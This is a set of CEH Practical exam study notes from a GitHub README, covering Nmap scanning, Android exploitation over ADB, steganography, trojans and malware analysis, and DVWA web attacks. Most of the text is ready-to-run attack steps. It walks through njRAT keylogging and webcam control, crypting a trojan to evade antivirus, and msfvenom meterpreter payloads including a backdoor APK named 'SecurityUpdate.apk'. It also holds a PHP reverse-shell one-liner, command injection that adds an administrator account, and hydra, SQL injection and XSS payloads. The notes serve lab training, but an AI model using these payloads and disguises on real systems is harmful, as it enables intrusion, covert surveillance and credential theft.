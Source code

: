 # CEH-Practical-Notes

# Network Hacking
<details>
  <summary>Netdiscover </summary>

* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>

* To scan the live Host
```console

nmap -sP x.x.x.0/24        	{Live host}
nmap -PR -sn x.x.x.0/24        	{Live host without port scan - ARP scan}
nmap -sC -sV x.x.x.0/24        	{Script + version}    
nmap -O x.x.x.x                 {To find the OS}
nmap -p- x.x.x.1/24        	{open port}
nmap -p port x.x.x.1/24 --open  {find the Specific open port}
nmap -T4 -A -v www.moviescope.com/x.x.x.10/24  {Aggressive scan}
nmap --script <script_name> -p <port> x.x.x.0/24 {using nse script}
nmap -sC -sV -p- -A -v -T4 x.x.x.0/24 {script+version+ports+os scan}
nmap -T4 -A -v -oN ouput.txt x.x.x.0/24  {Normal output in a file}

nmap -Pn -A x.x.x.1/24 -vv --open {Comprehensive Scan}
nmap -p 3389 -iL ip.txt | grep open (Check RDP enabled after getting ip)
nmap -p 3306 -iL ip.txt | grep open (Check MySQL service running)



nmap -sn x.x.x.0/24 -iL ips.txt {No of hosts up}

```
</details> 

# Android Hacking
<details>
  <summary>ADB</summary>

* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>


# Steganography
  <details>
    <summary>OpenStego</summary>

* To hide the Text in image

```console
Hide Data -> Message file -> text & Cover file -> image file
Output -> Desktop -> island -> Hide data
```

* To unhide the Hidden Text

```console
Extract Data -> Input -> islan.png
Output -> Desktop/NewTextDocument.txt
```

</details>

<details>
    <summary>Keywords</summary>

* Img hidden      - Openstego
* .hex            - Cryptool
* Whitespace      - SNOW
* MD5             - Hashcalc & MD5 Calculator
* Encoded         - BCTexteditor
* Volume & mount  - Veracrypt

</details>

# Malware threat analysis
<details>
<summary>Gain access to the target system using Trojans</summary>

```console

[W11] - attacker
	
Launch njRAT v0.7d.exe
port 5552
Click Builder (lower left -corner)
Enter Ip of attacker,check the optionRegisty StarUp and clickBuild.
Save As malacious.exe on Desktop and share

[WS22] - Victim
Copy malacious.exe to Desktop and Run

[W11]
Establishes a persistent connection with the victim machine
Right click on detected victim and click Manager
"Process Manager" -> Right click -> Kill/Delete/Restart
Connectoin -> Right click -> Kill Connection
Registry -> Right click -> associated registry files
Remote Shell -> launch remote conn on Win 22

cmd>ipconfig/all -> lower left conrner
Services -> start/pause/stop service
Close Manager window

Right click on victim name -> Remote Desktop (Launches remote connection)
select Mouse Checkbox -> remotely interact with the victim machine using the mouse.
Right click on victim name ->Remote Cam -> Microphone

[WS22]
As a victim perform some activity on machine, create a secret file and save.

[W11]
Right click on victim name -> Keylogger -> Able to view all keystrokes performed by victim
Right click on victim name -> open chat -> send msg to victim

```
</details>

<details>
<summary>Create a Trojan Server using Theef RAT Trojan</summary>
    Allows remote access to the system via port 9871 & 6703.

```console
[WS22] - Victim
Run Theef/Server210.exe 

[W11] - Attacker
Run Theef/Client210.exe
Victims ip & port 6703 
Estblish connection and perform activity, client will track all.
Computer info/ PC details/Home/Nw Info
```
</details>

<details>
<summary>Create a Virus using JPS virus maker tool and infect the target system</summary>

Features - auto-start/shutdown/disable security check, lock mouse, keyboard, destroy protected storage & terminate windows

```console

[Win11]
Luaunch JPS executable
Selection options you with to do --> Righ Arrow -> To change windows password & other --> right arrow for more features
Create virus
Share the virus created

[WS19]
Launch virus created
Open task manager - its disable - to verify
Restart to see pwd change affected
```
</details>
<details>
<summary>Hide a Trojan using SwayzCrypto</summary>

```console

[W11]
https://www.virustotal.com -> upload & see no of vul identified -> 59/69 vul shows
Run SwayzCryptor.exe ->Select file -> Desktop/Test.exe ->check the optionsStart up,Mutex, andDisable UAC, and then clickEncrypt.
Save file dialog -> cryptedfile.exe 
https://www.virustotal.com -> upload crypted.exe -> confirm upload -> only few anivirus will detect its malacious file

Start njRAT v0.7d.exe
Share CryptedFile.exe via shared folder

[WS22]
copy crypted.exe from shared to desktop -> run -> Attacker machine establishes a persistent connection with the victim machine.

[W11]
can observe that the connection has been established with the victim machine.

```

</details>

<details>
<summary>Capture and Analyze IoT Traffic using Wireshark</summary>

```console
[WS19]
Launch \Bevywise IoT Simulator\Bevywise_MQTTRoute_Win_64.exe file.
Command prompt will appear, can see the TCP port using 1883.

To create IoT devices, we must install the IoT simulator on the client machine.
[WS22]

Launch \Bevywise IoT Simulator\Bevywise_IoTSimulator_Win_64.exe
Launch C:\Bevywise\IotSimulator\bin\runsimulator.bat -> select Microsoft Edge browser and click OK to open the URL http://127.0.0.1:9000/setnetwork?network=HEALTH_CARE.
View the default network named HEALTH_CARE and several devices.

Create a virtual IoT network and virtual IoT devices. 
select the +New Network option.
CEH_NETWORK -> Create 
Broker IP Address as: [WS19_IP]
- the created network will interact with the server using MQTT Broker.

Add blank Device
Device name:Sensor, enter Device Id:TS1, Description and click on Save.
To connect the Network and the added devices to the server or Broker, click on the Start Network red color circular icon in right corner.

When a connection is established between the network and the added devices and the web server or the MQTT Broker, the red button turns into green.

[Ws19]
can see a connection request from machine WS22 machine for the device TS1.

[WS22]
Create Subscribe command for the device Sensor.
Click on the Plus icon in the top right corner and select the Subscribe to Command option.
The Subscribe for command - TS1 popup opens. Select On start under the Subscribe on tab, type High_Tempe under the Topic tab, and select 1 Atleast once below the 
Qos option. Click on Save.
can see the Topic added under the Subscribe to Commands section.
 will capture the traffic between the virtual IoT network and the MQTT Broker to monitor the secure communication.

 Wireshark
 Note: Make sure you have selected interface which has WS22 as the IP address.

[WS19]
Chrome - http://localhost:8080

Signin
Devices Menu 
send the command to TS1 using the High_Tempe topic.
Command Send section, select Topic as High_Tempe, type Alert for High Temperature and click on the Send button.

[S22]
Verify the message is received

wireshark
filter: mqtt

```
</details>

<details>
<summary>malware analysis</summary>

* Static malware analysis using hybrid

   https://www.hybrid-analysis.com -> upload virus and analyse

* Strings search using BinText
 
[WS11]
    
Run bintext.exe ->String searching tool
select Advance view
select "malacious.exe" from shared drive


* Identify packaging and obfuscation methods using PEid

[W11]

Launch PEiD.exe
Open virus file
click Open, PEiD analyzes the file and provides information


* Analyze ELF executable file using Detect It Easy (DIE)

Detect It Easy automatically scans the file and result appears showing the Operating system, compiler and language details in the middle pane

[W11]

Launch die.exe
Open ELF Test File
File info/Hash/Entropy and other details


* Portable executable (PE) information of a malware executable file using PE Explorer

Launch PE.Explorer_setup.exe
Open virus.exe
On top
Data Directories ->to view and edit the virtual address and size of the chosen directory describing provisions of parts of the code.
Section Headers->


* File dependencies using Dependency Walker

Launch depends.exe
open file.exe
Observer Import and Export section.


* Malware disassembly using IDA

[W11]

Launch IDA Freeware
IDA: Quick start -> New -> select malicious file
Portable executable for 80386 (PE) [pe64.dll] option selected -> OK
IDA View-A tab -> Right click -> Text view

Disassembling and Debugging Tools\IDA, Copy the qwingraph.exe file and paste it in IDA’s installation location. C:\Program Files\IDA Freeware 7.7
IDA-> View-> Graphs-> Flow Chart
View -> Graphs -> Function calls
HexView-1tab -> view hex value of the malicious file
Structure
Enums

* Malware disassembly using OllyDbg

Launch OLLYDBG.EXE

File file.exe
Output appears in -> CPU - main thread, module tini

View-> Log
Log data appears ->displays the program entry point and its calls to known functions

View->Executable modules
View->Memory
View->Thread


* Malware disassembly using Ghidra

Run ghidraRun.bat

If a Command Prompt window appears, then type C:\Program Files\jdk-17.0.2+8 and press Enter
Ghidra: NO ACTIVE PROJECT -> File -> New Project
Non-Shared Project -> Proj Name: Malware Analysis -> Finish
File->Import file -> file.exe -> Import Result Summary -> OK

file.exe is added as a children node under the Malware Analysis project
Double click file.exe -> Analyse -> Yes
under Symbol Tree, you can observe various components of face.exe file such as Imports, Exports, Functions and Labels

Expand Imports -> view DLL files

Program Tree->Headers double click
-> Double click .rdata

</details>

#Web server hacking
<details>
	<summary>using Nmap Scripting Engine (NSE)</summary>
	
	```console
	[linux]
	nmap -sV --script=http-enum [target]
	 
	To discover the hostnames that resolve the targeted domain.
	nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- [target]

	Perform HTTP trace on the targeted domain
	nmap --script http-trace -d [target]
	This script will detect a vulnerable server that uses the TRACE method by sending an HTTP TRACE request that shows if the method is enabled or not.

	check whether Web Application Firewall is configured on the target host or domain
	nmap -p80 --script http-waf-detect [Target]
	determine whether a web server is being monitored by an IPS, IDS, or WAF.
	This command will probe the target host with malicious payloads and detect the changes in the response code
        ```
	<summary>Linux </summary>
 	sudo su
	
	uniscan -h
	uniscan -u [target-url] -q
	-q -> to search for the directories of the web server.
	
	uniscan -u [target-url] -we
	Here -w and -e are used together to enable the file check (robots.txt and sitemap.xml file).
	
	uniscan -u [target-url] -d
	to start a dynamic scan on the web server.
	obtaining more information about email-IDs, Source code disclosures, and external hosts, web backdoors, dynamic tests.
	
	File system ->
	usr --> share --> uniscan --> report.
 
</details>

#Reference
* Analyze IOT device
https://ceh-practical.cavementech.com/module-18.-iot-and-ot-hacking/2.-capture-and-analyze-iot-traffic

<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console


 	```
</details>

<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console

	[Linux]
	sudo su
	cd PhoneSploit
	python3 -m pip install colorama
	python3 phonesploit.py
	3  	-> Connect a new phone
	Enter a phones ip address: [andoirdIP]
	connection time out error :  Type 3 continue until u get Phone Ip address option
	Connected at port 5555
	
	(main_menu)> 4  	-> Access Shell on a phone
	Device name: [AndroidIP]
	pwd		-> Root dir
	ls
	cd sdcard
	ls
	cd Download
	ls
	
	Note: Note down the location of images.jpeg (in this example, /sdcard/Download/images.jpeg). We will download this file in later steps.
	exit
	
	(main_menu)>7    ->Screen Shot a picture on a phone.
	[AndoridIP]
	/home/attacker/Desktop		-> save, screen.png is stored in Desktop
	
	(main_menu)>14 	 ->list all apps on the phone
	[AndoridIP]
	(main_menu)>15 	 ->choose Run an app
	com.android.calculator2
	
	[android]
	see that the calculator app is running, and that random values have been entered
	```
</details>

<details>
	<summary># Hack an Android Device,Creating Binary Payloads</summary>
	
	```console
 [Linux]
    sudo su
	cd
	service postgresql start
	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[PIP] -R > Desktop/Backdoor.apk 
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	service apache2 start
	cp /root/Desktop/Backdoor.apk /var/www/html/share/
	msfconsole
	use exploit/multi/handler
	show options
	set LHOST [PIP]
	exploit -i -z  -> run exploit as background job
	
	[Android]
	launch http://[PIP]/share
	download and run Backdoor.apk
	
	[Linux]
	The meterpreter session has been opened successfully
	sessions -i 1
	sysinfo
	ipconfig
	pwd
	cd /sdcard 
	pwd -> /storage/emulated/0.
	ps
 	```
</details>
    

<details>
	<summary># Hack an Android Device,Creating APK File - AndroRAT</summary>
	
	```console
	[linux]
	sudo su 
	cd AndroidRat
	python3 androidRAT.py --build -i [PIP] -p 4444 -o SecurityUpdate.apk
	--build: is used for building the APK
	-i: specifies the local IP address
	cp /home/attacker/AndroidRAT/SecurityUpdate.apk /var/www/html/share
	service apache2 start
	python3 androidRAT.py --shell -i 0.0.0.0 -p 4444
        --shell: is used for getting the interpreter
        -i: specifies the IP address for listening (here, 0.0.0.0)

	[Android]
	launch http://[PIP]/share
	save and open SecurityUpdate.apk
	
	[parrot]
	Interpreter session has been opened successfully.
	help
	deviceinfo
	getSIM inbox
	getMACAddress
	exit
 	```
</details>  


# Web Application hacking

<details>
	<summary>Banner grabbing</summary>
	
	```console
 	   nmap -T4 -A -v [Target Web Application] 
     	   OR
	   telnet www.moviescope.com 80
	   GET / HTTP/1.0
	```
</details>

<details>
	<summary>Reconinanace using whatweb</summary>
	
	```console
	  whatweb -v [Target] 
	  whatweb --log-verbose=Report www.moviescope.com
	```
</details>

<details>
<summary>Web Server Directories</summary>
	
```console
 nmap -sV --script=http-enum
 look under http-enum
 Find dirs
 gobuster dir -u [Target Website] -w /home/attacker/Desktop/common.txt

 OR
 python3 dirsearch.py -u [Target]
 python3 dirsearch.py -u http://www.moviescope.com -e aspx   {spec extn}
 python3 dirsearch.py -u http://www.moviescope.com -x 403    {dir bruteforce excluding port 403}

``` 
</details>
<details><summary>Hack a Web Application using WPScan and Metasploit</summary>

```console

    [WS22]
    Launch wampserver

	[parrot]
	sudo su
	cd
	wpscan --api-token [API Token] --url http://[WSIP]:8080/CEH --enumerate u
	--enumerate u: specifies the enumeration of usernames.

	Obtained the usernames stored in the database.

    To find user's passwords.

	service postgresql start -> first start the PostgreSQL service.
	msfconsole
	use auxiliary/scanner/http/wordpress_login_enum 
	show options
	set PASS_FILE /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications/Wordlist/password.txt 
	set RHOSTS [WIP]
	set RPORT 8080
	set TARGETURI http://[WSIP]:8080/CEH 
	set USERNAME admin -> take any username obtained from above
	run
```
</details>

<details>
<summary>Perform remote os command injection (dvwa web) and get the content from pin file</summary>

```console
    [Win 11]
	http://[WSIP]:8080/dvwa/login.php
	test/abc123
	Command Injection
	
	Ping a device - [W22IP] -> successfully pings the target machine
	Try with ;/&&/&/ 
	| hostname          -> error -> Change security level to low
	| hostname 			-> return machine name, any other details from the system   
	| whoami
	| tasklist 			-> to view the processes running on the machine.
	| Taskkill /3112 /F -> Forcefully terminate the process

	/F- Forecefully terminate
	
	| dir C:\ 			-> files and directories on C:\
	| net user  		-> User account information
	| net user Test /Add ->	Attempt to add a user account remotely.
	| net user 			-> View the new user account
	| net user Test 	-> new account information
	
	Does not have administrative privileges. It has an entry called Local Group Memberships.
	
	| net localgroup Administrators Test/Add  -> To grant administrative privileges
	| net user Test     -> Test is now an administrator account under the Local Group Memberships option.
		
	Check able to connecto to Target machine with new user with RDC
	RDC -> [Target IP]
	Username: Test - connect
```
</details>

<details>
<summary>Perform file upload (dvwa web)</summary>

```console
    
	[linux]
	sudo su
	cd
	msfvenom -p php/meterpreter/reverse_tcp LHOST=[PIP] LPORT=444 -f raw
	Copy payload and paste it into upload.php
		
	Open http://WSIP:8080/dvwa/login.php
	admin/password
	security - low
	File upload - upload the upload.php
	
	[linux]
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST [PIP]
	set LPORT 444
	run
	
	Firefox
	Open http://[WSIP]:8080/dvwa/hackable/uploads/upload.php
	
	Terminal - Meterpreter session has successfully been established with the victim system
	sysinfo
	
	----
	if securty set to high
	File upload - upload the high.jpeg
	
	Command Injection
	Ip address: |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php + Submit
	
	Terminal
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST [PIP]
	set LPORT 2222
	run 
	
	Firefox: http://[WSIP]:8080/dvwa/hackable/uploads/shell.php
	Terminal: Meterpreter session has successfully been established with the victim system.
	sysinfo
```

</details>

<details>
<summary>DVWA</summary>

```conose
hydra -l admin -p pasword 10.0.0.49 http-post-form="/login.php:username=admin&password=^PASS^&Login=Submit:Login failed"

hydra 10.0.0.49 http-form-post "/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -l admin -p password

NOT WORKING
hydra 10.0.0.49 http-form-post "/login.php:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=low:F=Login failed" -l admin -P /home/sbkali/Downloads/pass.txt

1. Vul - Brute-force 
security=low
hydra 10.0.0.49 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=low:F=Username and/or password incorrect." -l admin -P /home/sbkali/Downloads/pass.txt

security=medium
hydra 10.0.0.49 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=medium:F=Username and/or password incorrect." -l admin -P /home/sbkali/Downloads/pass.txt -V -I --> verbose

security=high
NOT WORKING
------------------------------------------------------------------------------------------------------------------------
Command Injection

check which char is accepting ;/&/|/||/&&

low
localhost
localhost | whoami
localhost | php -r '$sock=fsockopen("10.0.0.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

nc -nvlp 4444

medium

localhost | php -r '$sock=fsockopen("10.0.0.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

high
change secrity by intercepting then it will work
------------------------------------------------------------------------------------------------------------------------
File upload
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.16 LPORT=444 -f raw > shell.php

msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.0.16
set LPORT 444
exploit

1. update Content-Type: image/jpeg 

Upload shell.php -> File is uploaded
Now access that file by entering the full path 10.0.0.49/hackable/uploads/../../hackable/uploads/shell.php

Reverse shell is open in msfconsole
sysinfo
whoami
pwd

High
add GIG 98 to shell.php
mv shell.php shell.php.jpeg
Similary intercept the req and update the security it will work for all. if only jpeg accepted then intercept and update Content-Type: image/jpeg -
------------------------------------------------------------------------------------------------------------------------
' or 1=1#   - Displays result

Find no of columns --> 2
' order by 1# - No error
' order by 1# - No error
' order by 3# -- error

' union select @@version, null#  --> 10.1.26-MariaDB-0+deb9u1
' or 0=0 union select null, user() #
' or 0=0 union select null,concat(user, password) from users #

First name: admin
Surname: admin

SQLMAP

1. sqlmap -u "http://10.0.0.49/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --cookie="PHPSESSID=hokuv28srabuqss7p766lttp75; security=low" --batch
available databases [2]:
[*] dvwa
[*] information_schema

2. sqlmap -u "http://10.0.0.49/vulnerabilities/sqli/?id=1&Submit=Submit#" -D dvwa --cookie="PHPSESSID=hokuv28srabuqss7p766lttp75; security=low" --batch --dump-all

Blind Injection
' or sleep(5)#
1 or sleep(5)#

1 1=0 and union select null, concat(user,password) from users #
-------------------------------------------------------------------------------------------------------------
XSS-DOM
alert(1)
Medium: </select><video><source onerror="javascript:alert(1)"></video>
High: #<script>alert(1)</script>  --> commented javascript

Reflected

Low: <script>alert(1)</script>
Medium : <img src=x onerror=alert(1)>
High: <img src=x onerror=alert(1)>

Stored
low: <script>alert(1)</script>
medium: <img src=x onerror=alert(1)>
high: <img src=x onerror=alert(1)>
-------------------------------
echo -n "token" | wc -c --> 32
echo 'ChangeMe' | tr 'A-Za-z' 'N-ZA-Mn-za-m''
PunatrZr
echo -n "PunatrZr"| md5sum  -> same token 

echo 'success' | tr 'A-Za-z' 'N-ZA-Mn-za-m''
dsfsdf
echo -n "dsfsdf"| md5sum  -> diff token

put success and add diff token in burpsuit

```
</details>
